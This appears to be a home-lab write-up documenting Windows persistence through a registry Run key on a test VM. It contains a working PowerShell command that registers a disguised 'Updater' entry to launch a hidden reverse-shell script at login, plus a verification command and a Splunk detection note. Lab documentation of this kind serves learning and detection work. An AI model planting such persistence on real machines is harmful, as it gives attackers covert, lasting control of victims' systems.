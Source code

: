 # 🪝 Persistence via Registry Run Key

## 💡 Goal
Establish persistence on the Windows victim machine so that the attacker's payload is automatically executed on user login.

---

## 🖥️ Target System
- **Host**: Victim (Windows 10 VM)
- **User**: vboxuser
- **IP**: 192.168.0.12

---

## ⚙️ Method: Registry Run Key

The following registry key was added to persist a PowerShell reverse shell payload:

```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
  -Name "Updater" `
  -Value "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\vboxuser\payload.ps1" `
  -PropertyType String
```
## 📝 Payload Script: payload.ps1
This file is saved at:
```
C:\Users\vboxuser\payload.ps1
```
It contains a PowerShell one-liner reverse shell to 192.168.0.11:4444.

## ✅ Verification
```
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
```
This confirmed the “Updater” key is active and will trigger the script at every login.

## 📌 Notes
- Tested manually by restarting the VM and observing an incoming shell.
- Anti-virus must be disabled for the payload to execute.
- EventCode 3 and 1 can detect this activity in Splunk.

